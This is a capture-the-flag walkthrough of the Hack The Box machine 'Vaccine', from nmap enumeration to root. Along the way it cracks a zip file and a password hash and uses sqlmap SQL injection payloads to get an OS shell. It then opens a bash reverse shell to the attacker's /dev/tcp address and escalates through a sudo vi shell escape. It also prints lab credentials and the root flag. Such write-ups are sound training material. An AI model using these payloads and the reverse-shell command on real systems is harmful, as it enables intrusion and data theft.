


# Hack The Box | Vaccine
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan against the target.  
**Target:** 10.10.10.46  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ nmap -sC -sV 10.10.10.46
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 09:29 EST
Nmap scan report for 10.10.10.46
Host is up (0.028s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
~~~
#### Description of parameters used
**-sC:** Scan with default NSE scripts. Considered useful for discovery and safe.  
**-sV:** Attempts to determine the version of the service running on port.  
### Open Ports/Services
21/tcp - FTP  
22/tcp - SSH  
80/tcp - HTTP  
### FTP
I was able to access FPT using credentials received from the previous pwned box. ftpuser / mc@F1l3ZilL4.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:jessi): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
~~~
And from here I browsed around the directory and found a file called **backup.zip**. I downloaded the file for further inspection.  
~~~Bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (24.1566 MB/s)
ftp> 
~~~
### Password Cracking: backup.zip
Using John, I am able to crack the password to the zip file. First I need to prepare the hash using **zip2john**.  Then I can crack it by referencing rockyou.txt wordlist.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ zip2john backup.zip > hash
Created directory: /home/jessi/.john
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: 2b chk, TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1 1g 0:00:00:00 DONE (2021-01-07 09:41) 2.000g/s 512.0p/s 512.0c/s 512.0C/s football1..simpleplan
Waiting for 3 children to terminate
2 0g 0:00:00:00 DONE (2021-01-07 09:42) 0g/s 3814Kp/s 3814Kc/s 3814KC/s  derrickak47.abygurl69
3 0g 0:00:00:01 DONE (2021-01-07 09:42) 0g/s 3230Kp/s 3230Kc/s 3230KC/s  brian89.a6_123
4 0g 0:00:00:01 DONE (2021-01-07 09:42) 0g/s 3012Kp/s 3012Kc/s 3012KC/s  mar ..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~
Success!  
#### Cracked Password
Password: 741852963  
Using the password, I was able to unzip the file. Inside there were two files - **index.php** and **style.css**.  Mainly interested in the [index.php](index.php) file. After closely inspecting, I found a password hash.  
~~~PHP
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?><?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
~~~
So now I needed to crack the hash **2cb42f8734ea607eefed3b70af13bbd3**.  
### Hash Cracking
Cracking this hash was trivial, we can use [Crackstation](https://crackstation.net/) to easily accomplish this.  
  
#### Cracked Password
Password: qwerty789  
## Foothold
### HTTP Access
Browsing to http://10.10.10.46/ presents us with a login screen.  
  
The credentials admin / qwerty789 successfully logs us in. We're now presented with a catalogue.  
  
Appears to be a car catalogue with search functionality. The search function results in this this request: http://10.10.10.46/dashboard.php?search=a  
### Inspect Element
If we inspect element while we browse the site, we can grab our **PHP Session ID**.  
  
### sqlmap
With this, we can construct a sqlmap query - which found the DBMS backend to be PostgreSQL and multiple injections.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=ooqgiruea2dt76b87rcd46dmov"
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:22:52 /2021-01-07/

[10:22:52] [INFO] testing connection to the target URL
[10:22:53] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:22:53] [INFO] testing if the target URL content is stable
[10:22:53] [INFO] target URL content is stable
[10:22:53] [INFO] testing if GET parameter 'search' is dynamic
[10:22:53] [INFO] GET parameter 'search' appears to be dynamic
[10:22:53] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
[10:22:54] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[10:22:54] [INFO] testing for SQL injection on GET parameter 'search'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] y
[10:23:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:23:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'                                                                        
[10:23:04] [INFO] testing 'Generic inline queries'
[10:23:04] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'                                                              
[10:23:05] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable (with --string="SUV")
[10:23:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:23:05] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable                                                
[10:23:05] [INFO] testing 'PostgreSQL inline queries'
[10:23:05] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:23:05] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)
[10:23:15] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable                                              
[10:23:15] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[10:23:25] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable                                                   
[10:23:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (6938=6938) THEN NULL ELSE CAST((CHR(72)||CHR(74)||CHR(83)||CHR(120)) AS NUMERIC) END)) IS NULL-- bZtv

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 5894=CAST((CHR(113)||CHR(112)||CHR(106)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (5894=5894) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(118)||CHR(118)||CHR(113)) AS NUMERIC)-- CRaA

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 4213=(SELECT 4213 FROM PG_SLEEP(5))-- XlIX
---
[10:23:36] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[10:23:37] [INFO] fetched data logged to text files under '/home/jessi/.local/share/sqlmap/output/10.10.10.46'                                              

[*] ending @ 10:23:37 /2021-01-07/
~~~
With this knowledge, I was able to some code execution in Postgres with another sqlmap query.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=ooqgiruea2dt76b87rcd46dmov" --os-shell
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:53:33 /2021-01-07/

[11:53:33] [INFO] resuming back-end DBMS 'postgresql' 
[11:53:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (6938=6938) THEN NULL ELSE CAST((CHR(72)||CHR(74)||CHR(83)||CHR(120)) AS NUMERIC) END)) IS NULL-- bZtv

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 5894=CAST((CHR(113)||CHR(112)||CHR(106)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (5894=5894) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(118)||CHR(118)||CHR(113)) AS NUMERIC)-- CRaA

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 4213=(SELECT 4213 FROM PG_SLEEP(5))-- XlIX
---
[11:53:34] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:53:34] [INFO] fingerprinting the back-end DBMS operating system
[11:53:34] [INFO] the back-end DBMS operating system is Linux
[11:53:34] [INFO] testing if current user is DBA
[11:53:34] [INFO] retrieved: '1'
[11:53:34] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[11:53:34] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
~~~
### Reverse Shell
Using the **os-shell** we executed, we can use it to execute a bash reverse shell with netcat. First, I setup my listner and then I execute the bash shell to my machine.  
~~~Bash
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.30/4444 0>&1'
~~~
And we get our shell.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Vaccine]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.46] 59960
bash: cannot set terminal process group (10892): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ 
~~~
#### Spawn TTY Shell
Before anything else, I upgraded my shell to TTY.  
~~~Bash
SHELL=/bin/bash script -q /dev/null
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~
## PrivEsc
### /var/www/html
I browsed to /var/www/html and inspected the [dashboard.php](dashboard.php) file for anything useful. I found the Postgres password in the file.  
~~~PHP
 }
        try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }
~~~
#### Found Credentials
Username: postgres  
Password: P@s5w0rd!  
### Sudo Permissions
I immediately reviewed sudo permissions.  
~~~Bash
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
~~~
This reaveals that we're allowed to the edit the configuration file /etc/postgresql/11/main/pg_hba.conf using Vi. We can leverage this to gain a root shell.  
~~~Bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:!/bin/bash
root@vaccine:/var/lib/postgresql/11/main# whoami
whoami
root
~~~
#### root.txt
Located in /root.  
**dd6e058e814260bc70e9bbdef2715849**
